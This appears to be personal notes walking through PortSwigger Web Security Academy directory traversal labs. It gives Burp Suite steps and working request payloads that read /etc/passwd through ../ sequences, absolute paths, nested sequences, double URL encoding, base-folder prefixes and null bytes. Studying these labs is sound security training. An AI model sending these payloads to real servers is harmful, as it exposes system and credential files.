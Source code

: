 # Portswigger
## Directory Traversal
### File path traversal, simple case
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=../../../../etc/passwd HTTP/1.1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215316.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215543.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215820.png)
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220502215946.png)

### File path traversal, traversal sequences blocked with absolute path bypass
```bash

- use absolute path

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=/etc/passwd HTTP/1.1


```

### File path traversal, traversal sequences stripped non-recursively
```bash

- `using ..../ or ....\/`

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.```bash


Send to Repeater

GET /image?filename=....//....//....//....//etc/passwd HTTP/1.1


```

### File path traversal, traversal sequences stripped with superfluous URL-decode
```bash

- non-standard URL encoding

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1

```

### File path traversal, validation of start of path
```bash

- base folder requirement "/var/www/images"

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/1.1


```

### File path traversal, validation of file extension with null byte bypass
```bash

- if a file extension is expected you may be able to use a null byte prior to said extension to terminate the following extension (similar to a comment at the end of an sql statement)

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=../../../../etc/passwd%00.jpg HTTP/1.1


```

#hacking
